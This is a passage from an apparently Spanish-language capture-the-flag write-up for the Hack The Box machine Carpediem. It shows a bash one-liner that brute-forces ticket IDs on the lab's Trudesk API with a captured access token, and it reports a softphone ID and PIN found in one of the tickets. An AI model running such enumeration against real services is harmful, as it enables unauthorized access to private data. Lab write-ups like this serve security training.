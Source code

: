 ![Api](../assets/images-Carpediem/Api4.png)

Voy a tener que grepear por los resultados que no contengan Invalid ticktes, false y {}
```bash
seq 1 2000 | xargs -P50 -I {} curl -s -X GET http://trudesk.carpediem.htb/api/v1/tickets/{} -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq | grep -vE "Invalid Ticket|false|{|}"
```
![Api](../assets/images-Carpediem/Api5.png)

Encontré un ticket el cual me indica que utilice  [zoiper](https://www.zoiper.com/en/voip-softphone/download/current) e ingrese con el `ID 9650` y el pin code `2022`, por lo tanto lo descargo e instalo 
